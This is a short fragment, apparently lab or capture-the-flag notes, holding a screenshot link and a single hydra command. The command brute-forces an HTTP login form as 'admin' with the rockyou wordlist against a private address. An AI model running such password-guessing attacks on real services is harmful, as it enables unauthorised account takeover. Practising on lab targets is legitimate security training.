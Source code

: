 ![image](https://user-images.githubusercontent.com/74050386/198943048-488321cd-65d7-4c80-bbb9-e70f44d2f64f.png)


hydra -l admin -P /usr/share/wordlists/rockyou.txt 10.10.100.200 -s 47002 http-post-form "/:username=^USER^&password=^PASS^:F=incorrect" -V

